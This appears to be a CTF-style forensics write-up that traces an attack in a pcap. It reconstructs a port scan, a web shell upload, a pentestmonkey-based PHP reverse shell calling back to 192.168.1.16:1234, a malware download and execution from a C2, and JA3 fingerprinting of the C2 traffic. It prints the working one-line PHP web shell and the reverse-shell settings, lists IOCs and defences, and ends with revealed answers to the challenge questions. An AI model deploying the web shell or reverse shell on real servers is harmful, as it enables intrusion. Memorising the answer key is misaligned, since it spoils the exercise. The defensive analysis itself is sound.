




## Scenario

Analyse a network traffic capture to identify attacker activity, trace the compromise chain from initial reconnaissance through to malware execution, and fingerprint the C2 communication using JA3 TLS fingerprinting.

---

## Methodology

### Reconnaissance — Port Scanning

Opening `fingerprint.pcap` in Wireshark, filtering by destination and protocol reveals two IPs generating large volumes of TCP and UDP scan packets:

- `192.168.1.9` — victim
- `192.168.1.1` — **attacker** (source of TCP port scan traffic)

The TCP SYN scan pattern from `192.168.1.1` across multiple ports confirms this as the initial reconnaissance phase.

### Initial Access — Web Shell Upload

**File → Export Objects → HTTP** in Wireshark surfaces uploaded files. The first uploaded file is `shell.php` — a minimal PHP command shell:

```php
<?php echo system($_REQUEST["cmd"]); ?>
```



This is a classic one-liner web shell — the `system()` function executes OS commands passed via the `cmd` GET/POST parameter. The attacker performed a proof-of-concept test immediately after upload:

```
cmd=touch%20test.txt
```

URL-decoded: `touch test.txt` — a benign write test to confirm code execution on the server.

### Execution — Reverse Shell Deployment

With code execution confirmed, the attacker uploaded a second, more capable payload: `shell2.php` — a full PHP reverse shell based on the pentestmonkey template.



Inspecting the TCP stream reveals the shell2.php source:

```php
set_time_limit(0);
$VERSION = "1.0";
$ip = '192.168.1.16';  // attacker listener
$port = 1234;
$chunk_size = 1400;
$shell = 'uname -a; w; id; /bin/sh -i';
```

The reverse shell calls back to `192.168.1.16` on port **1234**, spawning an interactive `/bin/sh` session on the victim server.

### C2 — Malware Download and Execution

Following the TCP stream from the reverse shell session reveals the attacker's post-exploitation commands:


The malware binary is downloaded from the C2 server and executed from `/tmp`:

```zsh
# Download
http://192.168.1.6:8965/myapp → /tmp

# Execute
./mp.yapp -ut.rl https://192.168.1.6:443/
```

The malware binary (`myapp`, executed as `mp.yapp`) connects back to the C2 over HTTPS (`192.168.1.6:443`), establishing an encrypted C2 channel.

### JA3 TLS Fingerprinting

JA3 fingerprinting extracts TLS ClientHello parameters (cipher suites, TLS version, extensions, elliptic curves) from the PCAP and produces an MD5 digest that uniquely identifies the TLS client implementation. This is valuable for threat hunting — the same malware will produce the same JA3 hash regardless of destination IP or domain.

Running `ja3.py` against the PCAP:

```bash
python ja3.py ~/Desktop/fingerprint.pcap
```



Filtering for traffic to the C2 (`192.168.1.6:443`) returns a distinct `ja3_digest` from the malware binary's TLS handshake:

```
4264590bacd8b2accb2021b7adb3b98e
```

This hash can be submitted to threat intelligence platforms (VirusTotal, abuse.ch, Shodan) to identify other infrastructure associated with the same malware family, or used as a detection rule in a SIEM or IDS.

---

## Attack Summary

|Phase|Action|
|---|---|
|Recon|TCP port scan from 192.168.1.1 against victim|
|Initial Access|shell.php web shell uploaded to web server|
|Execution|`touch test.txt` POC confirms RCE|
|Persistence|shell2.php reverse shell uploaded, callback to 192.168.1.16:1234|
|C2 Download|`myapp` binary pulled from hxxp[://]192[.]168[.]1[.]6:8965/myapp to /tmp|
|C2 Execution|`./mp.yapp -ut.rl https://192.168.1.6:443/` establishes encrypted C2|
|Fingerprint|JA3 digest `4264590bacd8b2accb2021b7adb3b98e` identifies malware TLS profile|

---

## IOCs

|Type|Value|
|---|---|
|IP (Attacker/Scanner)|192.168.1.1|
|IP (Reverse Shell Listener)|192.168.1.16|
|IP (C2 Server)|192.168.1.6|
|URL (Malware Hosted)|hxxp[://]192[.]168[.]1[.]6:8965/myapp|
|URL (C2 Callback)|hxxps[://]192[.]168[.]1[.]6:443|
|File|shell.php|
|File|shell2.php|
|File|myapp / mp.yapp|
|JA3 Hash|4264590bacd8b2accb2021b7adb3b98e|
|Reverse Shell Port|1234|

---

## MITRE ATT&CK

| Technique                            | ID        | Description                                     |
| ------------------------------------ | --------- | ----------------------------------------------- |
| Exploit Public-Facing Application    | T1190     | Web shell uploaded to exposed web server        |
| Unix Shell                           | T1059.004 | shell2.php spawns /bin/sh interactive session   |
| Web Protocols                        | T1071.001 | C2 communication over HTTPS to 192.168.1.6:443  |
| Ingress Tool Transfer                | T1105     | myapp binary downloaded from C2 to /tmp         |
| Network Service Discovery            | T1046     | TCP port scan from 192.168.1.1                  |
| Server Software Component: Web Shell | T1505.003 | shell.php and shell2.php deployed on web server |


---

## Defender Takeaways

**File upload validation** — The web application accepted arbitrary `.php` uploads. Restricting uploadable file types to non-executable extensions (images, documents) and storing uploads outside the web root would have blocked the initial web shell deployment entirely.

**JA3 as a detection primitive** — The JA3 hash `4264590bacd8b2accb2021b7adb3b98e` can be used as a network detection rule. Unlike IP or domain blocklists that attackers rotate constantly, TLS fingerprints are tied to the malware binary itself and are expensive to change. Adding JA3 detection to a SIEM or IDS provides durable coverage against the same malware family across infrastructure rotations.

**Egress filtering** — The malware downloaded from an internal C2 (`192.168.1.6:8965`) and beaconed out over HTTPS. Strict egress filtering that allows only known-good destinations would have blocked both the download and the C2 callback.

**Web shell detection** — POST requests to newly created `.php` files, or file writes by the web server process, are strong indicators of web shell activity. File integrity monitoring on the web root and WAF rules blocking system function calls (`system()`, `exec()`, `passthru()`) in POST bodies are effective controls.


---

<div class="qa-item"> <div class="qa-question-text">Question 1) What is the attacker IP that scanned the TCP ports? (Format: X.X.X.X)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">192.168.1.1</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 2) What is the first file uploaded? (Format: filename.ext)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">shell.php</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 3) What is the first command executed by the attacker? (Format: command)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">touch test.txt</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 4) What is the second file uploaded by the attacker? (Format: filename.ext)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">shell2.php</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 5) What is the port that the attacker used for a reverse shell? (Format: port)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">1234</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 6) What is the C2 URL where the malware is hosted? (Format: http://something:port/something)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">http://192.168.1.6:8965/myapp</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 7) What is the location where the command is executed? (Format: /location)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">/tmp</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 8) After the execution of malware, it connected to the C2 server. In order to share/hunt information related to this malware traffic, use the ja3 in the desktop and produce ja3 fingerprint of the malware traffic (Format: JA3 hash of malware traffic)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">4264590bacd8b2accb2021b7adb3b98e</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>
